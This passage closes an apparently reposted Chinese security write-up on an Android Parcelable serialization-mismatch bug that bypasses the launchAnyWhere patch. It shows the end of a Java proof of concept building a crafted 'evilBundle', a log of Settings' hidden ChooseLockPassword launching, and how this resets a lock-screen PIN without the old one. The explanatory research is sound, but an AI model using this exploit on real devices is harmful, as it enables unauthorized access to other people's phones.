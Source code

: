 ```
        pcelData.setDataPosition(keyIntentEndPos);
        Log.d(TAG, "Length of KEY_INTENT is " + Integer.toHexString(lengthOfKeyIntent));

        ///////////////////////////////////////
        pcelData.writeString("Padding-Key");
        pcelData.writeInt(0); // VAL_STRING
        pcelData.writeString("Padding-Value"); //


        int length  = pcelData.dataSize();
        Log.d(TAG, "length is " + Integer.toHexString(length));
        bndlData.writeInt(length);
        bndlData.writeInt(0x4c444E42);
        bndlData.appendFrom(pcelData, 0, length);
        bndlData.setDataPosition(0);
        evilBundle.readFromParcel(bndlData);
        Log.d(TAG, evilBundle.toString());
       return evilBundle;

    }
```



由于 Settings 似乎取消了自动化的点击新建账户接口，上述 POC 利用的漏洞触发还需要用户在 Settings->Users&accounts 中点击我们加入的 Authenticator，点击以后就会调用 addAccount 方法，最终能够启动 settings 中的隐藏 Activity ChooseLockPassword。



```
05-07 06:24:34.337  4646  5693 I ActivityManager: START u0 {act=android.intent.action.RUN flg=0x10000000 cmp=com.android.settings/.password.ChooseLockPassword (has extras)} from uid 1000
```



原先设置锁屏 PIN 码的测试手机，就会出现重新设置 PIN 码界面，点一下返回，就会出现以下 PIN 码设置界面。这样就可以在不需要原 PIN 码的情况下重设锁屏密码。





[![img](https://raw.githubusercontent.com/hhhaiai/Picture/main/img/202411231631644.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180530175405-6391fb22-63ef-1.png)





### 0x04 后记



没想到序列化和反序列化作为极小的编程错误，却可以带来深远的安全影响。这类漏洞可能在接下来的安全公告中还会陆续有披露，毕竟在源码树中搜索序列化和反序列化不匹配的 Parcelable 类是较为容易的，漏洞的作者应该持续发现了一批。



然而，每个类不匹配的情况有所不同，因此在漏洞利用绕过 launchAnywhere 补丁时需要重新精确布置 Bundle，读者可以用其他有漏洞的 Parcelable 类来练手。



这类漏洞也是不匹配或者说不一致（Inconsistency) 性漏洞的典型。除了序列化和反序列化不一致外，历史上 mmap 和 munmap 不一致、同一功能实现在 Java 和 C 中的不一致、不同系统对同一标准实现的不一致等等都产生过有趣的漏洞，寻找这种不一致也是漏洞研究的一种方法论。



### 参考



[1] [漏洞预警 | Android 系统序列化、反序列化不匹配漏洞](https://www.anquanke.com/post/id/103570)



[2] [launchAnyWhere: Activity 组件权限绕过漏洞解析](http://retme.net/index.php/2014/08/20/launchAnyWhere.html)